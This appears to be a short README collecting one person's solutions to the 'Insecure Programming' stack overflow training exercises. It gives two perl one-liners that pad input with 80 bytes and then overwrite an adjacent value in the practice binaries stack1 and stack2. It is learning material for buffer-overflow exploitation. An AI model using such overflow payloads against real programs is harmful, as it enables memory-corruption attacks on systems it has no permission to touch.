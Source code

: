 This document is intended to contain all my solutions to the [Insecure Programming](https://github.com/deadbits/InsecureProgramming) excercises. I will update this document as I advance in the excercises.

####Stack excercises

1. `$ perl -e 'print "1" x 80 . "\x44\x43\x42\x41"' | ./stack1`
2. `$ perl -e 'print "1" x 80 . "\x05\x03\x02\x01"' | ./stack2`
